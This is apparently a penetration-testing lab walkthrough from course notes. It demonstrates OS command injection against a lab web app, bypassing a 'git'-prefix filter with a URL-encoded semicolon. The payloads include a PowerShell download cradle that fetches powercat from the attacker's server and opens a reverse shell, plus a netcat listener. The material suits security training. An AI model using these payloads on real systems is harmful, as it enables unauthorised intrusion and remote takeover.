

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# OS Command Injection

Web applications often need to interact with the underlying operating system, such as when a file is created through a file upload mechanism.

Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system. **Prepared commands provide a set of functions to the underlying system that cannot be changed by user input**. However, these APIs and functions are often very expensive as well as time consuming to plan and develop.

Sometimes a web application needs to address a multitude of different cases, and a set of predefined functions can be too inflexible. In these cases, **web developers often tend to directly accept user input, then sanitize it**. This means that user input is filtered for any command sequences that might try to change the application's behavior for malicious purposes.

## Example

This example will rely on the Mountain Vaults web application which runs on port 8000 (the `/etc/hosts` file was edited to direct `mountainvaults.com` to the VM's IP):

<figure><figcaption><p>Mountain Vaults</p></figcaption></figure>

Per the landing page this service exists to backup git repositories. It allows users to run a `git clone` command via the web interface.

The first test will be to attempt to clone the [ExploitDB repository](https://github.com/offensive-security/exploitdb):

<figure><figcaption><p>Successful cloning of repository (image from OSCP course material)</p></figcaption></figure>

While it is interesting that any git repo can be cloned, looking at the actual request via Burp provides some other insight:

<figure><figcaption><p>git clone request via Burp</p></figcaption></figure>

Examining this POST request it would seem there is just an `Archive` parameter that is just the command text URL encoded.

This would suggest that perhaps other commands could be injected here. This will be attempted via `curl` (though the Burp Repeater could be used instead):

```shell-session
kali@kali:~$ curl -X POST --data 'Archive=ipconfig' http://mountainvaults.com:8000/archive
Command Injection detected. Aborting...%!(EXTRA string=ipconfig) 
```

Unfortunately straight command injection does not seem to be working. This does not mean that injection is impossible. Since the git clone command worked, perhaps it would be possible to backtrack into a working command. The next attempt will simply be the `git` command:

```shell-session
kali@kali:~$ curl -X POST --data 'Archive=git' http://mountainvaults.com:8000/archive
An error occured with execution: exit status 1 and usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           [--super-prefix=<path>] [--config-env=<name>=<envvar>]
           <command> [<args>]

These are common Git commands used in various situations:
...
See 'git help git' for an overview of the system.
```

&#x20;This indicates that the git command is allowed to be passed, it just errored because of the usage. Maybe the filter is something like a RegEx that checks if the command starts "`git`" before allowing it to run.&#x20;

Next, attempt the `git version` command to see if something other than "`clone`" can be used as the second word:

```shell-session
kali@kali:~$ curl -X POST --data 'Archive=git version' http://mountainvaults.com:8000/archive
Repository successfully cloned with command: git version and output: git version 2.36.1.windows.1
```

This indicates 2 useful things:

1. The command just has to start "`git`" and then it can be anything
2. The target system is running Windows

With these facts in mind, continue poking at the system to find working command execution. A logical next attempt would be to separate the commands with a semicolon as one would to create a one-liner for a command prompt:

```shell-session
kali@kali:~$ curl -X POST --data 'Archive=git version;ipconfig' http://mountainvaults.com:8000/archive
An error occured at form parsing! invalid semicolon separator in query
```

Unfortunately, this causes an error. Perhaps URL encoding the semicolon (to `%3B`) will solve the issue:

```shell-session
kali@kali:~$ curl -X POST --data 'Archive=git version%3Bipconfig' http://mountainvaults.com:8000/archive
Repository successfully cloned with command: git version;ipconfig and output: git version 2.36.1.windows.1

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.211.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.211.254
```

This avenue seems promising. Now that basic command injection has been obtained it is time to do a little more investigation. First it is important to determine whether the commands being injected are run in the command prompt or PowerShell.

A helpful snippet on [Stack Overflow](https://stackoverflow.com/questions/34471956/how-to-determine-if-im-in-powershell-or-cmd) can be used to determine whether commands are being run on CMD or PowerShell:

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

First it must be URL encoded:

```
%28dir%202%3E%261%20%2A%60%7Cecho%20CMD%29%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell
```

Then submitted as the second command via `curl`:

```shell-session
kali@kali:~$ curl -X POST --data 'Archive=git%20version%3B%28dir%202%3E%261%20%2A%60%7Cecho%20CMD%29%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://mountainvaults.com:8000/archive
Repository successfully cloned with command: git version;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell and output: git version 2.36.1.windows.1
PowerShell
```

The command is being executed in PowerShell. With that in mind the next thing will be to attempt to get a reverse shell stood up.

This example will use powercat, a PowerShell netcat substitute. This is not installed by default on Windows so the attacker will have to get a copy of the executable and host it on an HTTP server. Then via the command injection the powercat executable can be fetched and run, initiating the reverse shell.

Conveniently powercat is present on Kali so it can just be copied and hosted via HTTP:

```shell-session
kali@kali:~$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Another command prompt will also need to be opened where a netcat listener can be created to catch the reverse shell:

```shell-session
kali@kali:~$ rlwrap nc -nvlp 4444
listening on [any] 4444 ...
```

Now on to the command injection to fetch the executable and run it. The following is a two part PowerShell command. The first part uses a PowerShell download cradle to load the Powercat function contained in the `powercat.ps1` script from the attacker's web server. The second command uses the `powercat` function to create the reverse shell with the following parameters: `-c` to specify where to connect, `-p` for the port, and `-e` for executing a program.


```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.201/powercat.ps1");powercat -c 192.168.45.201 -p 4444 -e powershell 
```


This too needs to be URL encoded:


```
IEX%20%28New-Object%20System.Net.Webclient%29.DownloadString%28%22http%3A%2F%2F192.168.45.201%2Fpowercat.ps1%22%29%3Bpowercat%20-c%20192.168.45.201%20-p%204444%20-e%20powershell%20
```


And then injected via `curl`:


```shell-session
kali@kali:~$ curl -X POST --data 'Archive=git%20version%3BIEX%20%28New-Object%20System.Net.Webclient%29.DownloadString%28%22http%3A%2F%2F192.168.45.201%2Fpowercat.ps1%22%29%3Bpowercat%20-c%20192.168.45.201%20-p%204444%20-e%20powershell%20' http://mountainvaults.com:8000/archive
```


This resulted in a successful reverse shell:

```shell-session
kali@kali:~$ rlwrap nc -lvnp 4444 
listening on [any] 4444 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.211.189] 55271
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows


PS C:\Users\Administrator\Documents\meteor>
```
